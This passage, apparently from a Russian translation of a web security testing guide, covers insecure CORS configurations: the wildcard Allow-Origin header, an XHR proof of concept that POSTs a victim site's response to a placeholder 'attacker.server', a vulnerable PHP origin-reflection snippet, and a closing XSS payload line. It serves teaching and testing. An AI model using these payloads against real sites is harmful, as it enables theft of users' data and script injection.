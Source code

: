 ### Небезопасная конфигурация CORS

Указание подстановочного символа в заголовке `Access-Control-Allow-Origin header` (т.е. `Access-Control-Allow-Origin: *`) небезопасно, если ответ содержит чувствительную информацию. Хотя его нельзя применять вместе с `Access-Control-Allow-Credentials: true`, это может быть опасно, если контроль доступа обеспечивается без аутентификации, исключительно за счёт правил межсетевого экрана или IP-адресов источника.

#### Произвольный Access-Control-Allow-Origin

Тестировщик может проверить, присутствует ли `Access-Control-Allow-Origin: *` в сообщениях HTTP-ответов.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[тело ответа]
```

Если ответ содержит чувствительные данные, злоумышленник может украсть их с помощью XHR:

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener чтобы украсть ответ
                    xhr2.open("POST", "http://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server с заголовком `Access-Control-Allow-Origin: *` 
            xhr.open("GET", "http://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```

#### Динамическая политика CORS

Современное web-приложение или API могут быть реализованы c динамическим разрешением междоменных запросов, как правило, для запросов из поддоменов, подобно следующему:

```php
if (preg_match('|\.example.com$|', $_SERVER['SERVER_NAME'])) {
   header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
   ...
}
```


[Контент, вставленный с attacker.bar]: <img src="#" onerror="alert('Domain: '+document.domain)">